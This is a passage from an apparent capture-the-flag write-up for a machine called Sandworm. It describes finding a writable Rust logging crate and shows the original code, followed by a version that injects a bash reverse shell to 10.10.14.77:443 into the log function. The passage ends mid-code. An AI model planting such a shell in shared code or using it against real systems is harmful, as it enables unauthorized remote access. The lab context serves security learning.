 ![Atlas compiling tipnet](/assets/img/Sandworm/Sandworm_11.png)

When looking through the files i saw that there was a that the silentobserver was able to write to using the silentobserver user located at **/opt/crates/logger/src**. The following file contained the following rust code.

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```
The code itself is nothing spectacular its just a logging module. But seeing we can write to this we could embed a reverse shell in this code. After searching online for a reverse shell in rust i found the following [example](https://gist.github.com/GugSaas/512fc84ef1d5aefec4c38c2448935b01).

```rust
// I couldn't find the owner of the exploit, anyone who knows can comment so I can give the credits ;)
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.77/443 0>&1";
    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("not work");
```